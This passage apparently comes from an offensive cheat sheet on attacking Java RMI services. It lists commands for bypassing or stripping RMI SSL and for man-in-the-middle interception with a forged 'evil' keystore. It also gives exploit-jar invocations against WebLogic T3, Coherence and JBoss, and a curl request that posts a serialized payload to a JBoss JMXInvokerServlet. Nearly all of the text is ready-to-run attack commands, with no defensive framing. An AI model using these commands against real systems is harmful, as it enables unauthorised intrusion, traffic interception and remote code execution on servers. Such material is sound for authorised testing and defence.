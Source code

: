 ### Method 7: SSL/TLS Bypass

#### RMI over SSL Exploitation
```bash
# Bypass SSL verification
java -Djavax.net.ssl.trustStore= -Djavax.net.ssl.trustStoreType= -cp . RMISSLClient <target-ip> 1099

# MITM RMI SSL
java -Djavax.net.ssl.trustStore=malicious_keystore -cp . RMIClient <target-ip> 1099

# Strip SSL from RMI
tools/rmi-ssl-strip.py <target-ip> 1099
```

#### Certificate Manipulation
```bash
# Generate malicious certificate
keytool -genkey -alias evil -keystore evil_keystore

# Export certificate
keytool -export -alias evil -keystore evil_keystore -file evil.cer

# Inject into target truststore
java -Djavax.net.ssl.trustStore=evil_keystore -cp . RMIClient <target-ip> 1099
```

### Method 8: Application-Specific Exploits

#### WebLogic RMI Exploitation
```bash
# T3 protocol exploitation
java -jar weblogic-exploit.jar t3://<target-ip>:7001

# RMI over T3
java -cp . WebLogicRMI <target-ip> 7001

# Coherence RMI attack
java -jar coherence-exploit.jar <target-ip> 1099
```

#### JBoss RMI Attacks
```bash
# JBoss JMX invoker
java -jar jboss-exploit.jar <target-ip> 1099

# RMI over HTTP
curl -X POST -H "Content-Type: application/x-java-serialized-object" http://<target-ip>:8080/invoker/JMXInvokerServlet --data-binary @payload.ser
```

---
